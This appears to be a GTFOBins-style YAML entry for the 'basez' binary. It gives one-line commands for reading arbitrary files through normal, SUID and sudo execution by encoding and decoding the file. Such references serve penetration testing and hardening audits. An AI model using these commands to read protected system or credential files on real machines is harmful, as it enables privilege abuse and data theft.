 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        basez "$LFILE" | basez --decode
  suid:
    - code: |
        LFILE=file_to_read
        ./basez "$LFILE" | basez --decode
  sudo:
    - code: |
        LFILE=file_to_read
        sudo basez "$LFILE" | basez --decode
---
```

